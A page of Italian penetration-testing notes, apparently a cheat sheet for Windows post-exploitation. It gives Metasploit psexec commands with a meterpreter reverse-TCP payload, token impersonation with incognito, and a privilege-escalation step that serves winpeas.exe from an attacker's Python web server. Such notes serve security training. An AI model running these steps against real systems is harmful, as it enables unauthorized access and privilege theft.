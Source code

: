 ```bash
sudo msfconsole

use exploit/windows/smb/psexec

set payload windows/x64/meterpreter/reverce_tcp

set rhosts <IP_TARGET>    # *la macchina deve essere attiva*

set smbuser <USER>

set smbpass <PASSWORD>

set smbdomain <DOMAIN>    # A meno che non stiamo accedendo come 'administrator': in tal caso lasciamo '.'

run

```

Ottenuta la sessione *meterpreter*, procedo in questo modo

```bash
load incognito

list_tokens -u

impersonate_token <DOMAIN>\\<user> 
```

Col comando “shell”, se tutto va bene, scopriamo di essere quell’utente.

Per tornare indietro:

```bash
rev2self
```

---

# FASE 3 - PRIVILEGE ESCALATION

## Winpeas

Una volta ottenuta una shell, possiamo caricare ***winpeas.exe*** sulla macchina target, eseguirlo, e analizzarne i risultati per tentare un *Privilege Escalation*.

Se abbiamo una shell con evilwin-rm, possiamo usare il comando “upload”.

Altrimenti possiamo usare un semplice server http in Python lato attaccante e *curl* lato target

*Attacker*

```bash
python -m http.server <PORT>
```
